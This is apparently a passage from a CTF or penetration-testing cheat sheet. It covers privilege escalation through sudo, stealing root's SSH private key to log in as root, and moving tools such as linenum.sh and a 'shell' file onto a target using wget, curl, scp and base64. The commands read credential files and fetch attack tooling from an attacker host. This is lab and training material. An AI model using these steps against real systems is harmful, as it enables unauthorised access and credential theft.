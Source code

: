 ```bash
sudo -u user2 /bin/bash
```
- Read the flag for user2:

```bash
cat /home/user2/flag.txt
```
- Change directory to use privilege:

```bash
cd /home/user2
```
- Extract the SSH key from /root/.ssh/id_rsa and use it to SSH as root:

```bash
ssh root@<target_ip> -p <port> -i id_rsa
```
- Read the root flag:

```bash
cat /root/flag.txt
```
  
## 9. Transferring Files

### Using `wget`/`cURL`

- **Set Up a Python HTTP Server**:  
```bash
cd /tmp
python3 -m http.server 8000
```
- **Download from the Target:**

Using wget:
```bash
wget http://10.10.14.1:8000/linenum.sh
```

Using cURL:
```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```
Using SCP:
Transfer a file if SSH credentials are available:

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```
Using Base64:
Encode the File:

```bash
base64 shell -w 0
```
On the Target, Decode It:

```bash
echo <base64_string> | base64 -d > shell
```
Verify Integrity:

```bash
md5sum shell
```






